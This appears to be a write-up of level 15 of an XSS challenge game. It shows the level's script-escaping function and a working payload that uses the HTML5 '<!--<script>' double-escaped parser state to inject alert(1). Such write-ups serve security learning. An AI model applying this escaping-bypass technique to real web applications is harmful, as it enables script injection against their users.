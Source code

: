 # Level 15:
```lang-javascript line-numbers 
function escape(s) {
  return s.split('#').map(function(v) {
      // Only 20% of slashes are end tags; save 1.2% of total
      // bytes by only escaping those.
      var json = JSON.stringify(v).replace(/<\//g, '<\\/');
      return '<script>console.log('+json+')</script>';
      }).join('');
}
```

We can use the same trick we used for level 14. We can start with something simple like:

```lang-javascript line-numbers 
payload1#payload2
```

that will render:

```lang-javascript line-numbers 
<script>console.log("payload1")</script><script>console.log("payload2")</script>
```

We can take advantage of HTML5 "&lt;!--&lt;script&gt;" trick to change the way the parser treats the code between the two blocks and inject our "alert(1)" payload.
Note that this trick only works in HTML5 documents and we will need to inject a closing "--&gt;" since it is not present in the code

The solution is:

```lang-javascript line-numbers 
<!--<script>#)/;alert(1)//-->
```

This will render:

![](/images/octopress/xsslevel15-1.png)

Since we transition to "**script data double escaped state**" when the parser finds "&lt;!--&lt;script&gt;", the JS engine will receive the following valid JS expression:

![](/images/octopress/xsslevel15-2.png)

That can be interpreted as:

```lang-javascript line-numbers 
console.log("junk_string") < /junk_regexp/ ; alert(1) // -->
```

Where:

* junk_string: &lt;!--&lt;script&gt;
* junk_regexp: script&gt;&lt;script&gt;console.log(")

Actually you can see in the console that the first console.log writes '&lt;!--&lt;script&gt;'

In order to make it even shorter we can replace "//" with unicode \u2028 as suggested by [Mario](https://twitter.com/0x6D6172696F)
